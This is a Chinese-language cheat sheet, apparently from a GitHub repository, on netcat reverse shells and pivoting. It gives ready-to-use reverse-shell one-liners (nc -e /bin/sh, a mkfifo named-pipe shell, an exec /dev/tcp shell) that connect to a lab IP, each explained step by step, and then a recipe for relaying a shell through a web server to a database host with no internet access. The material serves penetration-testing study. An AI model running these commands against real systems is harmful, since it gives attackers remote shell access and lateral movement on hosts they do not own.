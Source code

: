   ```shell
  # 对于不支持nc -e参数，使用以下命令或使用其他版本nc
  攻击机：
  nc -lvp 1024
  目标机：
  nc.traditional 192.168.37.132 1024 -e /bin/sh
  ```

  ```shell
  # 配合命名管道进行反弹
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.37.132 1024 >/tmp/f
  # 解释
  1. rm /tmp/f：删除名为 /tmp/f 的文件（如果存在）。
  2. mkfifo /tmp/f：创建一个命名管道文件 /tmp/f。
  3. cat /tmp/f|/bin/sh -i 2>&1：通过命名管道文件读取输入，并将其作为命令输入给 /bin/sh，即启动一个交互式的 Shell。
  4. nc 192.168.37.132 1024 >/tmp/f：将标准输入的内容发送到 IP 地址为 192.168.37.132 的主机的 1024 端口，并将返回的输出重定向到 /tmp/f 文件中。
  ```

  ```shell
  # exec反弹shell
  0<&196;exec 196<>/dev/tcp/192.168.37.132/1024; sh <&196 >&196 2>&196
  # 解释
  1. 0<&196;：这部分表示将标准输入（stdin，文件描述符0）重定向到文件描述符196。文件描述符196在此被使用作为临时的输入流。
  2. exec 196<>/dev/tcp/192.168.37.132/1024;：这部分通过 exec 命令创建了一个新的文件描述符196，并将其关联到 /dev/tcp/192.168.37.132/1024 所表示的 TCP 套接字连接上。
  3. sh <&196 >&196 2>&196：这部分使用 sh 命令启动一个交互式 Shell。同时，使用文件描述符196将标准输入、标准输出和标准错误输出都重定向到与远程主机的 TCP 套接字连接关联的输入流和输出流上。
  ```

* nc内网代理

  ```shell
  # 场景：kali无法访问数据库服务器，但是可以访问web服务器
  # 通过web来做一次代理转发
  
  # kali
  nc -lvp 3333
  # 数据库 -- 不出网
  nc -lvp 3333 -e /bin/sh
  # web服务器
  nc -v [kali ip] 3333 -c "nc -v [数据库ip] 3333"
  # 解释
  这个命令的作用是在本地主机和kali 主机之间建立一个连接，并将从本地主机发送到 kali 的数据转发到数据库 主机的 3333 端口。
  ```

* 参考链接

  [1.nc使用指南](https://www.jianshu.com/p/cb26a0f6c622)

  [2. nc使用-freebuf](https://www.freebuf.com/sectool/243115.html)

  [3. nc应用一检测端口开闭](https://developer.aliyun.com/article/876069)



  ### netcat.py
